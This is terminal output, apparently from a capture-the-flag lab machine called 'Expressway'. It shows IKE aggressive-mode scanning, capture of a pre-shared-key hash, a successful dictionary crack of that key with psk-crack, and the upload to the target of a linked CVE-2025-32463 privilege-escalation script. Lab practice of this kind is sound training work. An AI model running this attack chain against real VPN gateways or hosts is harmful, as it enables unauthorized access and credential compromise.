kali㉿kali)-[~/Desktop/EJPT/Expressway]
└─$ ike-scan -M 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned
        HDR=(CKY-R=86b87084be5796a2)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.068 seconds (14.71 hosts/sec).  1 returned handshake; 0 returned notify
                                                                                              
┌──(kali㉿kali)-[~/Desktop/EJPT/Expressway]
└─$ ike-scan -A 10.10.11.87

Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=26cc3f02d2207e44) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.065 seconds (15.28 hosts/sec).  1 returned handshake; 0 returned notify
                                                                                              
┌──(kali㉿kali)-[~/Desktop/EJPT/Expressway]
└─$ ike-scan -A 10.10.11.87 --id=ike@expressway.htb --pskcrack=hash.txt
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=28f034dfa2279db5) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.071 seconds (14.18 hosts/sec).  1 returned handshake; 0 returned notify
                                                                                              
┌──(kali㉿kali)-[~/Desktop/EJPT/Expressway]
└─$ psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt

Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash deb8478676c2297a94161c90bb524009b664f7da
Ending psk-crack: 8045040 iterations in 17.635 seconds (456185.00 iterations/sec)


https://github.com/KaiHT-Ladiant/CVE-2025-32463/blob/main/cve-2025-32463.sh/

──(kali㉿kali)-[~/Downloads]
└─$ scp cve-2025-32463.sh ike@10.10.11.87:/tmp/

ike@10.10.11.87's password: 
cve-2025-32463.sh